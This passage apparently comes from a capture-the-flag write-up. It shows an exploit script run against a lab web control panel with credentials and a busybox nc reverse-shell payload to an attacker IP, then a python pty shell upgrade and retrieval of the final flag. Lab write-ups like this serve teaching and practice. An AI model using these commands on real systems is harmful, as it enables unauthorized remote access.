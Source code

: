 ```
python3 50457.py rickscontrolpanel.mortysserver.com 80 /index.php rick WubbaLubbaDubDub1! "busybox nc 10.66.67.106 1234 -e sh" 
```

![screenshot](assets/screenshots/morty/13.webp)

####  Shell Stabilization

After receiving a reverse shell as www-data using a busybox nc payload, the initial session was basic and limited — with minimal functionality (e.g., no tab-completion, poor input handling).

To improve control and prepare for further enumeration and privilege escalation, we upgraded the shell using Python.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
![screenshot](assets/screenshots/morty/14.webp)

Then From here we are able to retrieve the final flag that marks the end of the challenge 

![screenshot](assets/screenshots/morty/15.webp)


## 📝 Conclusion
